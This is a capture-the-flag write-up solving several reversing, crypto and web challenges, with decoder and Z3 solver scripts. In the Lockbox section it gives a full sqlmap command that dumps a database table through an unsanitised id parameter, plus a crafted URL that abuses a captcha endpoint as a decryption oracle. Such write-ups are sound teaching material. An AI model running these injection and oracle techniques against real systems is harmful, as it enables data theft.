




# <a name="one"></a>Talk to me (100p) [ruby]

In this challenge, you're given the address and port to a telnet server. Connecting to it, you get a `Hello!` from the server. When you enter something back, it will either print an error, the message `I wish you would greet me the way I greeted you.` or `I can't understand you`. Experimenting a bit with the inputs, it looks like the code is doing something like `eval(input).match(...)`, except if it detects any letter it will not eval your input, but send the "I can't understand you". [This article](https://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/) describes how you can write ruby code without letters, and since we are able to use the quote sign `'`, we can create strings with the shovel operator trick they describe. After many failed attempts at RCE, I realized that the program actually wanted me to write "Hello!" back. The solution then becomes `''<<72<<101<<108<<108<<111<<33`.


# <a name="two"></a>Aesni (700p) [binary]
Opening this binary in a disassembler only shows a single function, which seems to decrypt some code (using the AESENC instruction), then jumping to the decrypted code. Following the code in a debugger, we can see that this loop is actually running multiple times. It exits early if no arguments are given to the program, so we have to provide one. Simply single-stepping through the code, I see that the string `ThIs-iS-fInE` is loaded into a register and used in a comparison. If we give this as a param, the flag is returned.

```
root@2f4b836ef375:/ctf/work# ./aesni ThIs-iS-fInE
flag-cdce7e89a7607239
```

# <a name="three"></a>Decode me (150p) [snake oil]
We're given a .pyc file (Python bytecode) and an "encoded" PNG file. The pyc file is easily reversed with uncompyle6 and looks like this:

```python
import base64, string, sys
from random import shuffle

def encode(f, inp):
    s = string.printable
    init = lambda : (list(s), [])
    bag, buf = init()
    for x in inp:
        if x not in s:
            continue
        while True:
            r = bag[0]
            bag.remove(r)
            diff = (ord(x) - ord(r) + len(s)) % len(s)
            if diff == 0 or len(bag) == 0:
                shuffle(buf)
                f.write(('').join(buf))
                f.write('\x00')
                bag, buf = init()
                shuffle(bag)
            else:
                break

        buf.extend(r * (diff - 1))
        f.write(r)

    shuffle(buf)
    f.write(('').join(buf))


if __name__ == '__main__':
    with open(sys.argv[1], 'rb') as (r):
        w = open(sys.argv[1] + '.enc', 'wb')
        b64 = base64.b64encode(r.read())
        encode(w, b64)
```

At first glance, this code looks impossible to reverse due to its heavy use of shuffle(), and the fact that it might terminate early if `diff == 0`, giving blocks that are uneven in length. But the algorithm here is actually fairly straight-forward; base64-encode the input, initialize a permutation of all the printable characters, and *remove* one by one character from the permutation. For each letter you remove, measure the distance to the current input byte, and add (diff-1) of the removed letter to a temporary buffer. That means that if the input was an 'a', and you removed a 'g' from the permutation list, it would add `ord('g')-ord('a')-1` of the letter "g" to the temprary buffer. Once the permutation list is empty, or you run into a situation where the removed letter matches the input, the entire temporary buffer is *shuffled*, then added to the output (followed by a null-byte).

To reverse this, we need to differentiate the removed letters from the temporary buffer in the output. These two form one "block", and there are multiple blocks delimited by a null-byte in the output. Since each letter is actually removed from the permutation when encoding, we can simply take one by one letter until we find a duplicate letter that we've seen before. This marks the divide between `bag` and `buf`. The rest is simply counting the number of occurences of each letter from `bag`, as this will tell us the difference we need to add/subtract to get the real input. Because of the modulo operation, there are some bytes that could be valid ascii both as +100 and -100, but we want the one where the solution lands inside the alphabet used for base64.

The final decoder looks like this:
```python
from string import printable

#PNG header b64 iVBORw0KGg
b64alpha = map(ord, "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=")

b64buf = ""
data = open("decodeme.png.enc", "rb").read()

e_counter = 0
ix = 0
while ix < len(data):
    r_list = []
    while data[ix] not in r_list:
        r_list.append(data[ix])
        ix += 1
    try:
        STOP = ix + data[ix:].index("\x00")
    except ValueError:
        STOP = len(data)

    buf = data[ix:STOP]
    for r in r_list:
        if r == "\x00": continue
        diff = buf.count(r) + 1
        x = (diff + ord(r)) & 0xFF
        if x not in b64alpha:
            if 0 > (x - len(printable)):
                x += len(printable)
            else:
                x -= len(printable)
        if x not in b64alpha:
            print(x, ix, STOP, len(data), (diff + ord(r)))
            assert False
        b64buf += chr(x)
        

    ix = STOP + 1

with open("decodeme.png", "wb") as fd:
    fd.write(b64buf.decode('base-64'))
```

# <a name="five"></a>Inwasmble (200p) [web]

We've given a link to an HTML site, where we're greeted by this box:



At first glance, the code seems to contain nothing



but opening it in a text editor, reveals that it contains a ton of unicode letters that take up no space. The code actually looks like this:

```javascript
var code = new Uint8Array([0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x05, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x02, 0x01, 0x00, 0x05, 0x03, 0x01, 0x00, 0x01, 0x07, 0x15, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f, 0x72, 0x79, 0x02, 0x00, 0x08, 0x76, 0x61, 0x6c, 0x69, 0x64, 0x61, 0x74, 0x65, 0x00, 0x00, 0x0a, 0x87, 0x01, 0x01, 0x84, 0x01, 0x01, 0x04, 0x7f, 0x41, 0x00, 0x21, 0x00, 0x02, 0x40, 0x02, 0x40, 0x03, 0x40, 0x20, 0x00, 0x41, 0x20, 0x46, 0x0d, 0x01, 0x41, 0x02, 0x21, 0x02, 0x41, 0x00, 0x21, 0x01, 0x02, 0x40, 0x03, 0x40, 0x20, 0x00, 0x20, 0x01, 0x46, 0x0d, 0x01, 0x20, 0x01, 0x41, 0x04, 0x6c, 0x41, 0x80, 0x02, 0x6a, 0x28, 0x02, 0x00, 0x20, 0x02, 0x6c, 0x21, 0x02, 0x20, 0x01, 0x41, 0x01, 0x6a, 0x21, 0x01, 0x0c, 0x00, 0x0b, 0x0b, 0x20, 0x00, 0x41, 0x04, 0x6c, 0x41, 0x80, 0x02, 0x6a, 0x20, 0x02, 0x41, 0x01, 0x6a, 0x36, 0x02, 0x00, 0x20, 0x00, 0x2d, 0x00, 0x00, 0x20, 0x00, 0x41, 0x80, 0x01, 0x6a, 0x2d, 0x00, 0x00, 0x73, 0x20, 0x00, 0x41, 0x04, 0x6c, 0x41, 0x80, 0x02, 0x6a, 0x2d, 0x00, 0x00, 0x47, 0x0d, 0x02, 0x20, 0x00, 0x41, 0x01, 0x6a, 0x21, 0x00, 0x0c, 0x00, 0x0b, 0x0b, 0x41, 0x01, 0x0f, 0x0b, 0x41, 0x00, 0x0b, 0x0b, 0x27, 0x01, 0x00, 0x41, 0x80, 0x01, 0x0b, 0x20, 0x4a, 0x6a, 0x5b, 0x60, 0xa0, 0x64, 0x92, 0x7d, 0xcf, 0x42, 0xeb, 0x46, 0x00, 0x17, 0xfd, 0x50, 0x31, 0x67, 0x1f, 0x27, 0x76, 0x77, 0x4e, 0x31, 0x94, 0x0e, 0x67, 0x03, 0xda, 0x19, 0xbc, 0x51]);
var wa = new WebAssembly.Instance(new WebAssembly.Module(code));
var buf = new Uint8Array(wa.exports.memory.buffer);
async function go() {
  sizes = [...[...Array(4)].keys()].map(x => x * 128);
  buf.set(x.value.substr(sizes[0], sizes[1])
    .padEnd(sizes[1])
    .split('')
    .map(x => x.charCodeAt('')));
  if (wa.exports.validate()) {
    hash = await window.crypto.subtle.digest("SHA-1", buf.slice(sizes[2], sizes[3]));
    r.innerText = "\uD83D\uDEA9 flag-" + [...new Uint8Array(hash)].map(x => x.toString(16))
      .join('');
  }
  else {
    r.innerHTML = x.value == "" ? " " : "\u26D4";
  }
}
```

which, after running it through `wasm2js` from [binaryen](https://github.com/WebAssembly/binaryen), looks more like this

```javascript
function $0() {
  var $i = 0, $1 = 0, $2 = 0;
  $i = 0;
  label$1 : {
   label$2 : {
    label$3 : while (1) {
     if (($i) == (32)) {
      break label$2
     }
     $2 = 2;
     $1 = 0;
     label$4 : {
      label$5 : while (1) {
       if (($i) == ($1)) {
        break label$4
       }
       $2 = Math_imul(HEAP32[(Math_imul($1, 4) + 256) >> 2], $2);
       $1 = $1 + 1;
       continue label$5;
      };
     }
     HEAP32[(Math_imul($i, 4) + 256) >> 2] = $2 + 1;
     if (((HEAPU8[$i]) ^ (HEAPU8[($i + 128)])) != (HEAPU8[(Math_imul($i, 4) + 256)])) {
      break label$1
     }
     $i = $i + 1;
     continue label$3;
    };
   }
   return 1;
  }
  return 0;
 }
```

where the global buffer at index 128 is set to the string of "SmpbYKBkkn3PQutGABf9UDFnHyd2d04xlA5nA9oZvFE=" (after base64 decoding).

A simple Python equivalent, which totally doesn't have an overflow that makes it super slow to run, can be seen here:

```python
buffer = [0] * 65536
buf_128 = "SmpbYKBkkn3PQutGABf9UDFnHyd2d04xlA5nA9oZvFE=".decode('base-64')

i, var1, var2 = 0, 0, 0
flag = ""

while True:
    if i == 32:
        break
    var2 = 2
    var1 = 0
    while True:
        if i == var1:
            break
        var2 = buffer[(var1*4+256)>>2] * var2
        var1 += 1
    buffer[(i*4+256)>>2] = var2 + 1
    # flag += chr(buffer[(i*4)+256] ^ ord(buf_128[i]))
    flag += chr(((var2 + 1) ^ ord(buf_128[i])) & 0xFF)
    i += 1
    print(flag)
```

this eventually prints out `Impossible is for the unwilling.`, and entering this into the box gives our flag.



# <a name="seven"></a>Lockbox (600p) [go, web]

We're given an image with the URL `https://lockbox-6ebc413cec10999c.squarectf.com/?id=3` on it, and the source code to a Golang website for storing time-locked secrets. To upload a secret, you need to enter a time when your message should be decryptable, and a captcha. When you want to read a message, you need to provide both the id and the hmac of the data, and the current server time must be greater than the given timelock time. The crypto and time check for the messages do seem sound, and there's no glaring vulnerabilities there.

However, the captcha is generated in your session, but instead of giving the letters to you, they give them in an encrypted form. The `/captcha` end-point is able to decrypt this captcha message, and display it to you. So the end-point is basically a decryption oracle. If we can obtain an encrypted message, we can decrypt it with the captcha oracle, and by increasing the width parameter we can see all the letters in the output.

The `id` parameter is also being used directly inside an SQL query with no attempts at sanitation, and exploiting this is trivial. For maximum ease, I just used sqlmap for this, and the final command looked like this

`$ python sqlmap.py -o -u "https://lockbox-6ebc413cec10999c.squarectf.com/?id=3" --random-agent -D primary_app_db -T texts --dump`

```
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
| id | data                                                                                                                                                   | lock       |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
| 1  | TIJlneBxX-6sr4kUQdw0idCcoDh-t0lj5fU9e3cgU_gmLOZ96NrvxRe32o0wWrPJsv_66ACUTgPL_ewvHxMvOn2AGZl2opQO15rOjfkiw1lAEzhtK62J2Ce3T-SyzCpzSPSwQM6OdoF9HeZCH_xqFg | 1570492800 |
| 2  | P2HVNdfiXhJVnbjE70yqC2fLS8Cez0bxvfoDfDn5FRo8nAVU_R5ZTblcj5CgLw_qtM_D3zgWElLmeFqIGZwq49kgI-rvlR_tKXmFMVGbkVaTeEy6V0JM9EiRthnlIEjAq_L8Qs9WTBWZ2nzZrs57Mw | 1570665600 |
| 3  | Nw12G_0K_xYt4ZR3mO7cKuc5CFrrszCysLZrLgxhoGcakkjTs7x86DotIiD5fzgSZYK-zX3bWTE-dEJrmPBlgQ                                                                 | 1602288000 |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
```

decrypting it can be done by entering message 3 like `https://lockbox-6ebc413cec10999c.squarectf.com/captcha?w=700&c=Nw12G_0K_xYt4ZR3mO7cKuc5CFrrszCysLZrLgxhoGcakkjTs7x86DotIiD5fzgSZYK-zX3bWTE-dEJrmPBlgQ` and we get the flag as an image:



# <a name="eight"></a>Go cipher (1000p) [go, not web]
We are given a piece of Golang code, and a bunch of ciphertext/plaintext pairs. The flag ciphertext has no plaintext component, and all ciphertexts are in hex form. Going through the code, there are a few things to notice:

1. The md5sum of the key is written at the start of each ciphertext. The only ciphertext that has a key match with the flag, is "story4.txt.enc".
2. The key consists of 3 64-bit numbers; x, y and z.
3. Our output is simply `(input - x) ^ y ^ z` where the lowest 8 bits of x/y/z are used.
4. x is bitwise rotated 1 step to the right, and y/z are both rotated 1 step to the left. This means that y and z are shifting equally, and since the ouput is just XORed with both, we could replace them with k=y^z and treat it as a single number.

I used Z3 to recover some key that successfully encrypts `story4.txt` into the known bytes in `story4.txt.enc`. Getting the exact original key is not necessary.

```python
from z3 import *

def rotl(num, bits):
    bit = num & (1 << (bits-1))
    num <<= 1
    if(bit):
        num |= 1
    num &= (2**bits-1)

    return num

def rotr(num, bits):
    num &= (2**bits-1)
    bit = num & 1
    num >>= 1
    if(bit):
        num |= (1 << (bits-1))

    return num

x_org = BitVec("x", 64)
y_org = BitVec("y", 64)
z_org = BitVec("z", 64)

x, y, z = x_org, y_org, z_org
data_enc = map(ord, open("story4.txt.enc").read()[32:].decode('hex'))
data_dec = map(ord, open("story4.txt").read())

assert len(data_enc) == len(data_dec)

s = Solver()
for i in xrange(len(data_dec)):
    s.add( ((data_dec[i] - (x&0xFF)) ^ (y&0xFF) ^ (z&0xFF)) &0xFF == data_enc[i])
    x = RotateRight(x, 1)
    y = RotateLeft(y, 1)
    z = RotateLeft(z, 1)

if s.check() == sat:
    m = s.model()
    xx = m[x_org].as_long()
    yy = m[y_org].as_long()
    zz = m[z_org].as_long()
    # print(xx, yy, zz)
    
    flag_enc = map(ord, open("flag.txt.enc").read()[32:].decode('hex'))
    flag_dec = ""
    for e in flag_enc:
        flag_dec += chr( ((e ^ (yy&0xFF) ^ (zz&0xFF)) + xx&0xFF) & 0xFF )
        xx=rotr(xx, 64)
        yy=rotl(yy, 64)
        zz=rotl(zz, 64)
    print(flag_dec)
```

Prints `Yes, you did it! flag-742CF8ED6A2BF55807B14719`


# <a name="ten"></a>20.pl (500p) [perl, cryptography]

Deobfuscating the script gives something like this
```perl
#!/usr/bin/perl

print( "usage: echo <plaintext|ciphertext> | $0 <key>" ) && exit
  unless scalar @ARGV;
$/ = \1;
use constant H => 128;
@key = split "", $ARGV[0];
for ( @a = [], $i = H ; $i-- ; $a[$i] = $i ) { } # @a = range(0,128)
for ( $j = $i = 0 ; $i < H ; $i++ ) {
    $j += $a[$i] + ord $key[ $i % 16 ];
    ( $a[$i], $a[ $j % H ] ) = ( $a[ $j % H ], $a[$i] );
}
#print "@a\n";
# for ( $i = $j = $m = 0 ; <STDIN> ; print chr( ord $_ ^ $l ^ $m ) ) {
for ( $i = $j = $m = 0 ; <STDIN> ;  ) {
    $j += $a[ ++$i % H ];
    ( $a[ $i % H ], $a[ $j % H ] ) = ( $a[ $j % H ], $a[ $i % H ] );
    $l = $a[ ( $a[ $i % H ] + $a[ $j % H ] ) % H ];
    $m =
      ( ord( $key[ $i / 64 % 16 ] ) << $i ) & 0xff;
    $x = $i / 64 % 16;
}    # -- Alok
```

It initializes some array with values 0..128, then permutes that array based on the key (which is up to 16 bytes long). Finally, it continues to permute the array and XORs the input with elements from the array. This has all the hallmarks of RC4, except it doesn't operate on values up to 255. What this means, is that `$l` is never larger than 127, and thus the top bit of the input is never touched by XOR with `$l`. However, the input is also XORed with an `$m`, which contains a byte of the key, but shifted upwards.

Looking at the top bit of 8 consecutive bytes, will immediately give out one byte of the key, *provided that the original input was ASCII* - as printable ASCII does not have the top bit set either. Our target file is a PDF, which contain mixed ASCII parts and binary streams, and our goal is then to try to find a long enough stretch of ASCII that we can recover the key. I experimented a bit with various offsets into the code, and quickly learnt that the key was only hexadecimal letters. This narrowed the scope of candidate letters by quite a lot, and near the end of the PDF I was able to find something that decode into a key that worked.

```python
import operator

printable = "01234567890abcdef"

data = open("flag.pdf.enc","rb").read()

all_cands = [{} for _ in xrange(16)]

for block in range(700, len(data)//(64*16)):
    for i in xrange(16):
        cands = {}
        for j in xrange(8):
            keychar = ""
            for k in xrange(8):
                ix = (block*64*16) + i*64 + j*8 + k
                keychar += "1" if ord(data[ix])&0x80 else "0"
            c = chr(int(keychar, 2) >> 1)
            if c in printable:
                cands[c] = cands.get(c,0) + 1

        for k, v in cands.iteritems():
            all_cands[i][k] = all_cands[i].get(k,0) + v

key = ""

for cand in all_cands:
    sorted_cands = sorted(cand.iteritems(), key=operator.itemgetter(1), reverse=True)
    print(sorted_cands[:3])
    key += sorted_cands[0][0]

print(key)
```

Now we just run `cat flag.pdf.enc | perl5.20.1 20.pl 4600e0ca7e616da0 > flag.pdf` and we get the flag back.